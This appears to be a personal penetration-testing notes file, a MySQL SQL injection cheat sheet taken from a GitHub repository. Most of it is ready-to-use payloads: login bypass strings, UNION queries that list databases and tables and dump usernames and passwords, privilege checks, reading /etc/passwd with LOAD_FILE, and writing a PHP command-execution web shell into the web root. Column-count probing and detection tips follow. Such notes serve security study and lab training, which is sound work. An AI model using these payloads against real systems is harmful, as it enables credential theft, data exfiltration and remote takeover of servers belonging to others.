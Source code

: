 ## MySQL
### syntax cheatsheets 
- https://gist.github.com/bradtraversy/c831baaad44343cc945e76c2e30927b3
- https://devhints.io/mysql

### injection cheatsheets
- https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet 


## SQL Injection
| **Payload**   | **Description**   |
| --------------|-------------------|
| **Auth Bypass** |
| `admin' or '1'='1` | Basic Auth Bypass |
| `admin')-- -` | Basic Auth Bypass With comments |
| [Auth Bypass Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass) |
| **DB Enumeration** |
| `SELECT @@version` | Fingerprint MySQL with query output |
| `SELECT SLEEP(5)` | Fingerprint MySQL with no output |
| `cn' UNION select 1,database(),2,3-- -` | Current database name |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -` | List all databases |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -` | List all tables in a specific database |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -` | Dump data from a table in another database |
| **Privileges** |
| `cn' UNION SELECT 1, user(), 3, 4-- -` | Find current user |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE user="root"-- -` | Find if all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |
| **File Injection** |
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -` | Read local file |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |



## How to detect SQL injection vulnerabilities
- Submitting the single quote character `'` and looking for errors or other anomalies
- Submitting some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and looking for systematic differences in the resulting application responses.
- Submitting Boolean conditions such as `OR 1=1` and `OR 1=2`, and looking for differences in the application's responses.
- Submitting payloads designed to trigger time delays when executed within a SQL query, and looking for differences in the time taken to respond.
- Submitting OAST payloads designed to trigger an out-of-band network interaction when executed within a SQL query, and monitoring for any resulting interactions.
- [detection list](https://github.com/kiro6/penetration-testing-notes/blob/main/web%20pentest/Sql%20Injection/detect_prefixes.txt)

## sqli types source [sqli module htb academy](https://academy.hackthebox.com/module/details/33) 
![types_of_sqli](https://github.com/kiro6/penetration-testing-notes/assets/57776872/494a904c-156d-4d61-a25a-f94f7be0c650)

## Examining the database 
```mysql
#Version
SELECT @@version   

# Current User
SELECT user();
SELECT system_user();

# List Users
SELECT user FROM mysql.user;    => need priv

# List Password Hashes
SELECT host, user, password FROM mysql.user;    => priv

# Current Database
SELECT database()
```

- information_schema.schemata => This table contains information about all the schemas (databases) present in the MySQL server
```mysql
SELECT schema_name, default_character_set_name
FROM information_schema.schemata;
```
- information_schema.tables => This table contains information about all the tables in all the schemas (databases) of the MySQL server
```mysql
SELECT table_schema, table_name, table_type
FROM information_schema.tables;
```
- information_schema.columns => This table contains information about all the columns within all the tables in all the schemas (databases) of the MySQL server
```mysql
SELECT table_schema, table_name, column_name, data_type
FROM information_schema.columns;
```

```mysql
# List Databases
SELECT schema_name FROM information_schema.schemata; 

# list all tables
SELECT table_name  FROM information_schema.tables;
SELECT table_name  FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' ;

# list all tables in specfic databse (ex:secret)
SELECT table_name  FROM information_schema.tables WHERE table_schema = 'secret' ;

# Find Tables From Column Name (ex:username)
SELECT table_schema, table_name FROM information_schema.columns WHERE column_name = 'username';

# List all Columns 
SELECT table_schema, table_name, column_name FROM information_schema.columns ; 
SELECT table_schema, table_name, column_name FROM information_schema.columns WHERE table_schema != 'mysql' AND table_schema != 'information_schema'

# List all Columns in specfic databse (ex:secret)
SELECT  table_name, column_name FROM information_schema.columns WHERE table_schema = 'secret'

# List all Columns in specfic table (ex:users)
SELECT table_schema, column_name FROM information_schema.columns WHERE table_name = 'users' 


```

## UNION BASED
### Determining the number of columns
```
1' ORDER BY 3--+	#True
1' ORDER BY 4--+	#False => Query is only using 3 columns OR ERROR

1' GROUP BY 3--+	#True
1' GROUP BY 4--+	#False => Query is only using 3 columns OR ERROR

' UNION SELECT NULL,NULL,NULL--       #False OR ERROR
' UNION SELECT NULL,NULL,NULL,NULL--  #True Query is only using 4 columns
```
- note the unioned data types in each column must be compatible between the original

### Finding columns with a useful data type
if unioned data type is the same as orginal the the application's response will contain some additional content including the injected string value
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

